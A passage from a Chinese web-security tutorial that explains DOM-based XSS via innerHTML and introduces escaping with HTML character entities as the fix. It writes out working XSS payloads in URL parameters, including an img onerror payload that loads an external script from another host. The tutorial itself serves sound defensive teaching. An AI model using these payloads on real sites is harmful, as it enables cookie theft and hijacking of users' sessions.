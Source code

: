 比如我把这个页面的地址修改为：`www.example.com/user.html?name=<script>alert(1)</script>`。

就相当于:

```js
document.getElementById("username").innerHTML = '<script>alert(1)</script>';
```

会有什么效果呢？

结果是什么也没有发生……

这是因为:

> 根据 W3C 规范，script 标签中所指的脚本仅在浏览器第一次加载页面时对其进行解析并执行其中的脚本代码，所以通过 innerHTML 方法动态插入到页面中的 script 标签中的脚本代码在所有浏览器中默认情况下均不能被执行。

千万不要以为这样就安全了……

你把地址改成 `www.example.com/user.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：

```js
document.getElementById("d1").innerHTML="<img src=@ onerror=alert(1)>"
```

此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：

```js
document.getElementById("username").innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' />";
```

整理下其中 onerror 的代码：

```js
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

## 二. 字符实体

问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。
